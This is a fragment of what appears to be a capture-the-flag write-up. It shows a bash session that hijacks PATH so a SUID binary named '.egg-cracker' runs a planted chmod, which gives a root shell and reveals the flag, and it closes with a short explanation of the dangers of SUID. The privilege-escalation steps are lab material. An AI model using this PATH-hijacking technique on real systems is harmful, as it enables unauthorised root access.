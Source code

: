 ```bash
[master-baker@SESH-PI tmp]$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/bin
[master-baker@SESH-PI tmp]$ export PATH=/tmp:$PATH
[master-baker@SESH-PI tmp]$ cd ~
[master-baker@SESH-PI ~]$ ./.egg-cracker
Howdy fella, I can help you crack eggs!
How shall I scramble things?:
[root@SESH-PI ~]# cd /root
[root@SESH-PI root]# ls
root.txt
[root@SESH-PI root]# cat root.txt
sesh{congr4tuLations_you_W1n_A_RasPB3RRY_P1!}
```

This solution makes use of the fact that the `.egg-cracker` file is running `chmod` - by writing their own `chmod` executable and placing it first on the path, running `.egg-cracker` runs the malicious `chmod` instead of the standard one (and does so as root, due to its suid bit). This was a path we hadn't thought of, and just shows off the many dangers of SUID, so congrats to SherlockSec!